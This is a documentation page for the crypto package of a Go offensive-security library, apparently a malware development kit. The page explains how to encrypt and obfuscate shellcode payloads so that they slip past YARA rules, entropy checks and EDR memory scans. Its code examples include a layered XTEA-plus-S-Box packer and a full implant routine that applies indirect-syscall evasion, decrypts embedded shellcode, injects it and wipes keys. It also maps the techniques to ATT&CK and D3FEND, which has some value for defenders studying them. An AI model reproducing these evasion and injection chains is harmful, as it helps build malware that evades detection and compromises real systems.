

# Payload encryption & obfuscation

[← crypto index](README.md) · [docs/index](../../index.md)

## TL;DR

Three-tier toolkit: AEAD ciphers (AES-GCM, XChaCha20-Poly1305) for the
outer envelope; lightweight stream/block ciphers (RC4, TEA, XTEA) for
in-process unpackers; signature-breaking permutations (S-Box, Matrix
Hill, ArithShift, XOR) to defeat YARA byte patterns. Pure Go, no CGo,
cross-platform.

## Pick the primitive

Side-by-side. Pick the row whose tradeoffs match the deployment
context, then click through to the API Reference for that
function.

| Primitive | Layer | Speed | Entropy profile | Key | Nonce / IV | Authenticated | Reversible | Static signature | Best for |
|---|---|---|---|---|---|---|---|---|---|
| **AES-GCM** | AEAD outer | fast (AES-NI) | uniform high (256 bits) | 32 B | 12 B random | ✅ tag | yes | low (random) | Default outer envelope; tampering detection mandatory. |
| **XChaCha20-Poly1305** | AEAD outer | fast | uniform high | 32 B | 24 B random | ✅ tag | yes | low | AES-NI absent; misuse-resistant nonce (24 B random ≈ unique). |
| **RC4** | Stream | very fast | uniform | 5–256 B | none | ❌ | yes | YARA: keystream bias | Cheap unpacker between layers; never as outer envelope. |
| **TEA** | Block (64-bit) | very fast | uniform | 16 B | none (ECB) | ❌ | yes | low | Tiny block primitive when binary footprint matters. |
| **XTEA** | Block (64-bit) | very fast | uniform | 16 B | none (ECB) | ❌ | yes | low | Same as TEA but with corrected key schedule. |
| **XOR** | Stream | trivial | matches key length | any | implicit | ❌ | yes | YARA: visible key | Dev / scratch only; never alone in production. |
| **S-Box (substitute)** | Permutation | very fast | uniform when keyed | 256-byte table | none | ❌ | yes (`Reverse*`) | breaks byte-frequency YARA | Layer between AES-GCM and embed to flatten histograms. |
| **Matrix Hill** | Permutation | medium (per-row) | uniform | 4×4 / 8×8 matrix | none | ❌ | yes | breaks contiguous-byte YARA | Defeat contiguous-byte signatures; pair with S-Box. |
| **ArithShift** | Permutation | very fast | non-uniform | 1–4 B | none | ❌ | yes | low | Cheap layer that produces *non*-uniform entropy — masks an AES blob's "looks-random" tell. |

How to read the matrix:

- **Authenticated** = does the cipher detect tampering on
  decrypt? Only the AEAD ciphers do; everything else returns
  "decrypted" garbage on bit-flips. Always run an AEAD as the
  outermost layer if integrity matters.
- **Static signature** = how visible the cipher choice is to a
  YARA scanner. Permutations break histogram / contiguous-byte
  rules; AEAD ciphers leave no static fingerprint at all
  (output is random).
- **Speed** is qualitative. For multi-MB payloads, prefer
  AES-GCM (AES-NI) or XChaCha20-Poly1305 — the rest allocate
  per call.

Composition pattern (build → embed → runtime):

```text
plaintext
  ↓ EncryptAESGCM(key)              [outer AEAD, uniform output]
  ↓ SubstituteBytes(table)          [S-Box: flatten histogram]
  ↓ MatrixTransform(M)              [break contiguous bytes]
  ↓ ArithShift(k)                   [non-uniform entropy mask]
ciphertext bytes embedded into the implant
```

Reverse on the runtime side: `ReverseArithShift` →
`ReverseMatrixTransform` → `ReverseSubstituteBytes` →
`DecryptAESGCM`. **Always** wipe the key buffer with
`memory.SecureZero` immediately after `DecryptAESGCM` returns.

## Primer

Static signatures are the cheapest defender win. A raw shellcode buffer
sitting in a binary's `.data` section gets matched by a four-byte YARA
rule before it ever runs. Encryption breaks that match by replacing the
plaintext with high-entropy gibberish derivable only with the key.

The `crypto` package layers three protection levels. The **outer
envelope** uses an authenticated cipher (AEAD) — anything else risks an
attacker tampering with the ciphertext to redirect execution. The
**stream/block layer** is for tiny in-process unpackers where AES-GCM is
overkill but a passable cipher is still wanted. The **transform layer**
mutates byte distribution without giving cryptographic confidentiality —
useful when the goal is breaking signatures rather than hiding intent.

The package is pure Go, has no CGo dependencies, cross-compiles to
Linux/Windows/macOS targets, and avoids syscalls entirely (every operation
is a constant-time arithmetic transform on a buffer).

## How it works

```mermaid
flowchart LR
    SC[raw shellcode] -->|build time| ENC[crypto.EncryptAESGCM]
    ENC --> STAGE1[ciphertext + nonce]
    STAGE1 -.optional.-> WRAP[crypto.EncryptXTEA + SubstituteBytes]
    WRAP --> EMBED["go:embed in implant"]
    EMBED -->|runtime| LOAD[load embedded blob]
    LOAD --> UNWRAP1[ReverseSubstituteBytes + DecryptXTEA]
    UNWRAP1 --> DEC[crypto.DecryptAESGCM]
    DEC --> WIPE_K[memory.SecureZero AES key]
    WIPE_K --> EXEC[inject.Inject]
    EXEC --> WIPE_P[memory.SecureZero plaintext]
```



Build-time: encrypt with AEAD, optionally wrap in cheaper layers.
Runtime: peel layers in reverse, wipe the key the moment the AEAD `Open`
returns, inject, wipe the plaintext.

### AES-GCM internals



The 12-byte random nonce is **prepended** to the output, so callers do
not manage nonces. Re-encrypting the same plaintext yields a different
ciphertext every time.

### TEA / XTEA round equation

64 rounds, 32-bit half-blocks, 128-bit key:

$$
\begin{aligned}
\text{sum} &\mathrel{+}= \delta \\
v_0 &\mathrel{+}= ((v_1 \ll 4) + k_0) \oplus (v_1 + \text{sum}) \oplus ((v_1 \gg 5) + k_1) \\
v_1 &\mathrel{+}= ((v_0 \ll 4) + k_2) \oplus (v_0 + \text{sum}) \oplus ((v_0 \gg 5) + k_3)
\end{aligned}
$$

with $\delta = \texttt{0x9E3779B9}$ (golden ratio constant). XTEA fixes
TEA's equivalent-key weakness by mixing the round counter into the key
schedule, but the structure is the same.

### Matrix (Hill cipher mod 256)

For an $n \times n$ key matrix $K$ over $\mathbb{Z}_{256}$ with
$\gcd(\det K, 256) = 1$, encryption operates per $n$-byte block $\vec{p}$:

$$
\vec{c} = K \vec{p} \mod 256
$$

`NewMatrixKey(n)` searches random matrices until one is invertible mod
256. The inverse is precomputed and returned alongside.

## API Reference

### `NewAESKey() ([]byte, error)`

[godoc](https://pkg.go.dev/github.com/oioio-space/maldev/crypto#NewAESKey)

Generate a fresh 32-byte AES-256 key from `crypto/rand`.

**Returns:**
- `[]byte` — 32 random bytes suitable as input to `EncryptAESGCM`.
- `error` — wraps `crypto/rand` failure (extremely rare, OS entropy
  exhaustion).

**Side effects:** none — pure call into the OS CSPRNG.

**OPSEC:** invisible. Reads `RtlGenRandom` / `BCryptGenRandom` on Windows.

### `EncryptAESGCM(key, plaintext []byte) ([]byte, error)`

[godoc](https://pkg.go.dev/github.com/oioio-space/maldev/crypto#EncryptAESGCM)

AES-256-GCM AEAD encryption with a fresh random 12-byte nonce.

**Parameters:**
- `key` — 32 bytes (AES-256). Shorter or longer keys return an error.
- `plaintext` — payload to encrypt; any length, including zero.

**Returns:**
- `[]byte` — `nonce ‖ ciphertext ‖ tag` (12 + len(plaintext) + 16 bytes).
- `error` — invalid key length or `crypto/rand` failure.

**Side effects:** allocates `len(plaintext) + 28` bytes.

**OPSEC:** very-quiet. Pure userland arithmetic.

### `DecryptAESGCM(key, ciphertext []byte) ([]byte, error)`

[godoc](https://pkg.go.dev/github.com/oioio-space/maldev/crypto#DecryptAESGCM)

Inverse of `EncryptAESGCM`. Extracts the prepended nonce, verifies the
GCM tag, returns the plaintext.

**Parameters:**
- `key` — same 32-byte key used to encrypt.
- `ciphertext` — output of `EncryptAESGCM` (must be at least 28 bytes).

**Returns:**
- `[]byte` — original plaintext.
- `error` — invalid key length, ciphertext too short, or
  authentication-tag failure (tampering or wrong key).

### `NewChaCha20Key() ([]byte, error)`

[godoc](https://pkg.go.dev/github.com/oioio-space/maldev/crypto#NewChaCha20Key)

Generate a fresh 32-byte XChaCha20-Poly1305 key.

### `EncryptChaCha20(key, plaintext []byte) ([]byte, error)`

[godoc](https://pkg.go.dev/github.com/oioio-space/maldev/crypto#EncryptChaCha20)

XChaCha20-Poly1305 AEAD encryption with a fresh random 24-byte nonce.

**Parameters:** `key` 32 bytes; `plaintext` any length.

**Returns:** `nonce ‖ ciphertext ‖ tag` (24 + len(plaintext) + 16 bytes).

**OPSEC:** very-quiet. Prefer over AES-GCM on targets without AES-NI
(older CPUs, ARM) — pure ChaCha20 is faster there.

### `DecryptChaCha20(key, ciphertext []byte) ([]byte, error)`

[godoc](https://pkg.go.dev/github.com/oioio-space/maldev/crypto#DecryptChaCha20)

Inverse of `EncryptChaCha20`.

### `EncryptRC4(key, data []byte) ([]byte, error)`

[godoc](https://pkg.go.dev/github.com/oioio-space/maldev/crypto#EncryptRC4)

RC4 stream cipher. Symmetric — call again to decrypt.

> [!CAUTION]
> RC4 is cryptographically broken (biased keystream, related-key
> attacks). The only legitimate use case in this package is matching
> Metasploit's `rc4` payload format on the handler side.

**Parameters:** `key` 1–256 bytes; `data` any length.

**Returns:** XORed buffer (same length as input).

### `XORWithRepeatingKey(data, key []byte) ([]byte, error)`

[godoc](https://pkg.go.dev/github.com/oioio-space/maldev/crypto#XORWithRepeatingKey)

XOR each byte of `data` with the cyclic key. Symmetric.

**Parameters:** `data` any length; `key` ≥ 1 byte (zero-length returns an
error).

**Returns:** XORed buffer.

**OPSEC:** very-quiet but trivially reversible if any plaintext is
known. Use only as a layer atop an AEAD.

### `EncryptTEA(key [16]byte, data []byte) ([]byte, error)`

[godoc](https://pkg.go.dev/github.com/oioio-space/maldev/crypto#EncryptTEA)

TEA block cipher (8-byte block, 64 rounds). PKCS#7-padded.

**Parameters:** `key` exactly 16 bytes; `data` any length (padded
internally).

**Returns:** ciphertext, length rounded up to the next multiple of 8.

> [!WARNING]
> TEA has an equivalent-key weakness — every key has three "siblings"
> that produce the same ciphertext. Prefer XTEA for new code.

### `DecryptTEA(key [16]byte, data []byte) ([]byte, error)`

[godoc](https://pkg.go.dev/github.com/oioio-space/maldev/crypto#DecryptTEA)

Inverse of `EncryptTEA`. Strips PKCS#7 padding.

### `EncryptXTEA(key [16]byte, data []byte) ([]byte, error)`

[godoc](https://pkg.go.dev/github.com/oioio-space/maldev/crypto#EncryptXTEA)

XTEA block cipher — TEA with a fixed key schedule. Same block size and
round count.

### `DecryptXTEA(key [16]byte, data []byte) ([]byte, error)`

[godoc](https://pkg.go.dev/github.com/oioio-space/maldev/crypto#DecryptXTEA)

Inverse of `EncryptXTEA`.

### `NewSBox() (sbox [256]byte, inverse [256]byte, err error)`

[godoc](https://pkg.go.dev/github.com/oioio-space/maldev/crypto#NewSBox)

Generate a random byte permutation and its inverse. Use as a non-linear
mixing layer between cryptographic stages.

**Returns:** the forward and inverse permutation tables, plus
`crypto/rand` errors.

### `SubstituteBytes(data []byte, sbox [256]byte) []byte`

[godoc](https://pkg.go.dev/github.com/oioio-space/maldev/crypto#SubstituteBytes)

Apply the S-Box byte-by-byte. Pair with `ReverseSubstituteBytes` to undo.

### `ReverseSubstituteBytes(data []byte, inverse [256]byte) []byte`

[godoc](https://pkg.go.dev/github.com/oioio-space/maldev/crypto#ReverseSubstituteBytes)

Inverse of `SubstituteBytes`.

### `NewMatrixKey(n int) (key, inverse [][]byte, err error)`

[godoc](https://pkg.go.dev/github.com/oioio-space/maldev/crypto#NewMatrixKey)

Generate a random invertible $n \times n$ matrix mod 256. Searches until
$\gcd(\det K, 256) = 1$.

**Parameters:** `n` ∈ {2, 3, 4}.

**Returns:** key matrix, inverse matrix, `error` for invalid `n` or
search exhaustion.

### `MatrixTransform(data []byte, key [][]byte) ([]byte, error)`

[godoc](https://pkg.go.dev/github.com/oioio-space/maldev/crypto#MatrixTransform)

Hill-cipher block transform mod 256. Each $n$-byte block becomes
$K\vec{p} \mod 256$. PKCS#7-padded.

> **Allocation cost.** Per-block: one `[]byte` row vector of length
> `n`. For a 1 MiB payload with `n=4` that's 262 144 transient
> allocations on the encryption path (and the same on
> `ReverseMatrixTransform`). The output buffer itself is allocated
> once. For multi-MiB payloads where allocator pressure matters, use
> `EncryptAESGCM` / `EncryptChaCha20` as the outer envelope and apply
> `MatrixTransform` only to a small key/header chunk.

### `ReverseMatrixTransform(data []byte, inverse [][]byte) ([]byte, error)`

[godoc](https://pkg.go.dev/github.com/oioio-space/maldev/crypto#ReverseMatrixTransform)

Inverse Hill-cipher transform.

### `ArithShift(data, key []byte) ([]byte, error)`

[godoc](https://pkg.go.dev/github.com/oioio-space/maldev/crypto#ArithShift)

Position-dependent byte add (mod 256). Adds `key[i % len(key)] + i` to
each byte. Defeats simple frequency analysis that XOR doesn't.

### `ReverseArithShift(data, key []byte) ([]byte, error)`

[godoc](https://pkg.go.dev/github.com/oioio-space/maldev/crypto#ReverseArithShift)

Inverse of `ArithShift`.

### `Wipe(buf []byte)`

[godoc](https://pkg.go.dev/github.com/oioio-space/maldev/crypto#Wipe)

Compiler-resistant memclear over `buf`. Convenience re-export of
`cleanup/memory.SecureZero` so the most common
"decrypt → consume → forget" sequence can stay in the `crypto` package
without an extra import.

### `UseDecrypted(decrypt func() ([]byte, error), fn func([]byte) error) error`

[godoc](https://pkg.go.dev/github.com/oioio-space/maldev/crypto#UseDecrypted)

Runs `decrypt`, hands the resulting plaintext to `fn`, and zeroes the
plaintext via `defer Wipe(...)` before returning. The wipe runs even
when `fn` returns an error or panics, so the only way to leave
plaintext in heap-resident bytes is for `fn` to copy them out — which
the doc comment forbids.

`decrypt` is a closure rather than a typed function so any decrypt
shape (fixed-size keys for TEA/XTEA, AAD-aware AEAD wrappers) fits
without per-cipher overloads.

## Examples

### Simple

```go
key, _ := crypto.NewAESKey()
ct, _ := crypto.EncryptAESGCM(key, []byte("shellcode goes here"))
pt, _ := crypto.DecryptAESGCM(key, ct)
```

See `ExampleEncryptAESGCM` and `ExampleEncryptChaCha20` in
[`crypto_example_test.go`](../../../crypto/crypto_example_test.go) for
runnable variants.

### Composed (with `cleanup/memory` for key wiping)

Decrypt the embedded blob, wipe the key the moment `Open` returns, run
the payload, wipe the plaintext:

```go
import (
    "github.com/oioio-space/maldev/cleanup/memory"
    "github.com/oioio-space/maldev/crypto"
)

shellcode, err := crypto.DecryptAESGCM(aesKey, encryptedPayload)
if err != nil {
    return err
}
memory.SecureZero(aesKey)

// ... use shellcode ...
memory.SecureZero(shellcode)
```

### Advanced (XTEA + S-Box layered packer)

A two-stage in-process unpacker. The outer S-Box defeats YARA rules that
look at byte distribution; the inner XTEA round destroys whatever
structure leaks through.

```go
import "github.com/oioio-space/maldev/crypto"

// Build time
var xteaKey [16]byte
_, _ = crypto.NewSBox() // warm CSPRNG
sbox, inv, _ := crypto.NewSBox()
copy(xteaKey[:], aesKeyMaterial[:16])

stage1, _ := crypto.EncryptXTEA(xteaKey, shellcode)
packed   := crypto.SubstituteBytes(stage1, sbox)

// Embed `packed` + `xteaKey` + `inv` in the implant.

// Runtime
unsbox  := crypto.ReverseSubstituteBytes(packed, inv)
orig, _ := crypto.DecryptXTEA(xteaKey, unsbox)
```

### Complex (full encrypt → evade → inject → wipe chain)

End-to-end implant body. Apply syscall evasion first, decrypt the
payload, wipe the key, inject through an indirect-syscall caller, wipe
the plaintext.

```go
import (
    "github.com/oioio-space/maldev/cleanup/memory"
    "github.com/oioio-space/maldev/crypto"
    "github.com/oioio-space/maldev/evasion"
    "github.com/oioio-space/maldev/evasion/preset"
    "github.com/oioio-space/maldev/inject"
    wsyscall "github.com/oioio-space/maldev/win/syscall"
)

var (
    encrypted []byte // //go:embed payload.aes
    aesKey    []byte // //go:embed key.bin
)

func run() error {
    caller := wsyscall.New(wsyscall.MethodIndirect,
        wsyscall.Chain(wsyscall.NewHellsGate(), wsyscall.NewHalosGate()))
    _ = evasion.ApplyAll(preset.Stealth(), caller)

    shellcode, err := crypto.DecryptAESGCM(aesKey, encrypted)
    if err != nil {
        return err
    }
    memory.SecureZero(aesKey)

    inj, err := inject.NewWindowsInjector(&inject.WindowsConfig{
        Config:        inject.Config{Method: inject.MethodCreateThread},
        SyscallMethod: wsyscall.MethodIndirect,
    })
    if err != nil {
        return err
    }
    if err := inj.Inject(shellcode); err != nil {
        return err
    }
    memory.SecureZero(shellcode)
    return nil
}
```

## OPSEC & Detection

| Artefact | Where defenders look |
|---|---|
| High-entropy `.data` / `.rdata` section | Compile-time YARA `entropy >= 7.5`, ML classifiers (PE byte histograms) |
| Decrypt routine signature | Static unpacker fingerprints (e.g. `aes.NewCipher` followed by `cipher.NewGCM` from a non-go-tooling-built binary) |
| Plaintext shellcode in process memory after decrypt | EDR memory scans (Defender's `AMSI`-like for native code, MDE Live Response) |
| Long-lived AES key in heap | YARA scanning of process RWX/RW pages — wipe immediately after `Open` |

**D3FEND counters:**

- [D3-SEA](https://d3fend.mitre.org/technique/d3f:StaticExecutableAnalysis/)
  — static executable analysis defeats high-entropy sections via
  unpacker emulation.
- [D3-PSA](https://d3fend.mitre.org/technique/d3f:ProcessSpawnAnalysis/)
  — process-spawn analysis catches decrypt-then-execute patterns.
- [D3-FCR](https://d3fend.mitre.org/technique/d3f:FileContentRules/) —
  YARA over `.data` after unpacker emulation.

**Hardening:** wipe keys before injection (`cleanup/memory.SecureZero`);
chunk decryption + injection across cache lines so plaintext does not
sit in RWX longer than a few microseconds; pair with sleep-masking
(`evasion/sleepmask`) for long-running implants.

## MITRE ATT&CK

| T-ID | Name | Sub-coverage | D3FEND counter |
|---|---|---|---|
| [T1027](https://attack.mitre.org/techniques/T1027/) | Obfuscated Files or Information | obfuscation transforms (XOR, TEA, S-Box, Matrix, ArithShift) | D3-SEA |
| [T1027.013](https://attack.mitre.org/techniques/T1027/013/) | Encrypted/Encoded File | AEAD ciphers (AES-GCM, ChaCha20) and stream cipher (RC4) | D3-FCR |

## Limitations

- **Key distribution unsolved.** This package does not embed, derive,
  fetch, or rotate keys — it ciphers buffers. A real implant must source
  the key from somewhere (build-time embed, environment, C2 fetch). The
  weakest link in any payload-encryption design.
- **Entropy is detectable.** A 200 KB high-entropy section in a Go
  binary is suspicious by itself. Layer with non-uniform transforms
  (`ArithShift`) or split into multiple sections for cover.
- **Ephemeral plaintext still touchable.** Between decrypt and `Inject`,
  the plaintext lives on the Go heap. EDR memory scans (Defender,
  CrowdStrike) sweep RW pages — wipe the buffer *before* the next
  syscall, not after. Use `crypto.UseDecrypted(decrypt, fn)` — the
  helper runs decrypt, calls fn with the plaintext, and zeroes the
  buffer via defer (so the wipe still runs when fn errors or
  panics). Or call `crypto.Wipe(plaintext)` manually for cases that
  don't fit the closure shape.
- **No streaming API.** Every function takes the whole buffer. For
  multi-MB payloads, allocate carefully — `EncryptAESGCM` allocates
  exactly once, but `MatrixTransform` allocates intermediate row
  vectors.
- **RC4 broken.** Compatibility-only; do not use as the outer envelope.
- **TEA equivalent keys.** Three keys decrypt to the same plaintext;
  prefer XTEA.

## See also

- [`encode`](../encode/README.md) — transport-safe representations to
  wrap the ciphertext for HTTP / PowerShell / JSON channels.
- [`hash`](../hash/README.md) — integrity, ROR13 API hashing, fuzzy
  similarity for variant detection.
- [`cleanup/memory.SecureZero`](../cleanup/memory-wipe.md) — pair to
  wipe keys and plaintext.
- [`evasion/sleepmask`](../evasion/sleep-mask.md) — re-encrypt the
  payload during sleep windows.
- [Bernstein, *ChaCha, a variant of Salsa20*](https://cr.yp.to/chacha/chacha-20080128.pdf)
  — XChaCha20-Poly1305 source paper.
- [NIST SP 800-38D](https://csrc.nist.gov/publications/detail/sp/800-38d/final)
  — GCM specification.
